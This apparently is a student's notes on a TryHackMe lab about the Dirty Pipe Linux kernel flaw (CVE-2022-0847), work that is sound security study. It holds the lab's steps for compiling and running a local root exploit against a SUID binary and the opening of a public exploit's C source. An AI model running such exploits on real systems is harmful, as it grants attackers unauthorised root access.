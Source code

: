   

**Exploitation**

Before continuing with this task, please ensure that you have exited your session as the root user. You should once again be executing commands in the context of the `tryhackme` user.

As the `tryhackme` user, compile the exploit using the same syntax as was given in the previous task, e.g.:

```php
gcc dirtypipez.c -o exploit
```

With the exploit compiled, it should be run with a single argument specifying a target binary, owned by root and with the SUID bit set, for example: `./exploit /bin/su`

---

Exploit the target using bl4sty's exploit for Dirty Pipe  

Make sure to clean up after yourself!

Remove the SUID binary created by the script (`/tmp/sh`).  

**[Optional]** Find another exploit for this vulnerability online. Review the code to ensure that it does what it claims to do, then upload it to the target and attempt to exploit the vulnerability a third way.

---

![[Pasted image 20240713082311.png]]

https://github.com/n3rada/DirtyPipe/blob/main/dpipe.c

## Code
 
```c
/*
 *
 * Dirty Pipe
 * vulnerability (CVE-2022-0847)
 *
 * Compile as static binary:
 * gcc -o dpipe dpipe.c -static
 *
 */

#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/user.h>
#include <limits.h>


static void prepare_pipe(int p[2])
{
    if (pipe(p)) abort();

    const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
    if (pipe_size == -1) {
        perror("[Dirty Pipe] Error: Failed to get pipe size");
        abort();
    }
    printf("[Dirty Pipe] Pipe size determined: %u bytes\n", pipe_size);
```